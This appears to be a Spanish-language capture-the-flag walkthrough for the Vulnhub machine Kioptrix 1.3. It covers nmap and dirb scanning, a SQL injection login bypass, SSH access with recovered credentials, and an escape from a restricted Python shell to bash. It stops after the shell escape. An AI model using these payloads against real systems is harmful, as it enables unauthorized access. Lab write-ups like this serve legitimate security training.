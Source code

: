 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.3"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface eth0 -l
```
![1](https://user-images.githubusercontent.com/75953873/178128766-c1eb1f99-56e6-4449-a3f2-bf9345a59492.png)

IP host: `192.168.25.138`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.138
```
![2](https://user-images.githubusercontent.com/75953873/178128792-82993633-dc3c-4167-ab2c-4e0c05570d37.png)

Puertos abiertos: [22,80,139,445]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,139,445 -A 192.168.25.138
```
![3](https://user-images.githubusercontent.com/75953873/178128892-5d15426d-7724-4b96-ac14-8fa749662bc6.png)

![3 2](https://user-images.githubusercontent.com/75953873/178128937-364e11ba-8b5a-475b-a4c3-f5713ebe4d66.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

URL: `http://192.168.25.138`

![4](https://user-images.githubusercontent.com/75953873/178128981-b955ab0e-8efa-4d7b-a4a2-9ab170f6c50c.png)

La enumeración de directorios y archivos con Dirb encuentra un directorio llamado `john`, pero esté no revela nada relevante.
```
dirb http://192.168.25.138
```
![5](https://user-images.githubusercontent.com/75953873/178129062-4b519854-bfa5-469c-82a6-346010347a17.png)

![6](https://user-images.githubusercontent.com/75953873/178129075-842d66d2-e997-45c6-8cce-84d712f3c0db.png)

- *Paso 4:* Inyección SQL manual.

En el panel de login se debe ingresar el usuario `john` y la contraseña `' or 1=1-- -`.

![7](https://user-images.githubusercontent.com/75953873/178129163-cf68f241-8cbb-4d11-ac2a-50263173b630.png)

- *Paso 5:* Conectarse al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss john@192.168.25.138 -l john
```

Usuario: `john`

Contraseña: `MyNameIsJohn`

![8](https://user-images.githubusercontent.com/75953873/178129218-e0862b3b-4d30-44b2-8352-cc0e39f5d10c.png)

La shell se ejecuta dentro de un intérprete de python por lo que saldremos de ella e ingresaremos al directorio raíz del servidor `/var/www`:
```
echo os.system('/bin/bash')
cd /www/var
```
![9](https://user-images.githubusercontent.com/75953873/178129438-867ea487-da95-432e-8454-c5c42590c05a.png)
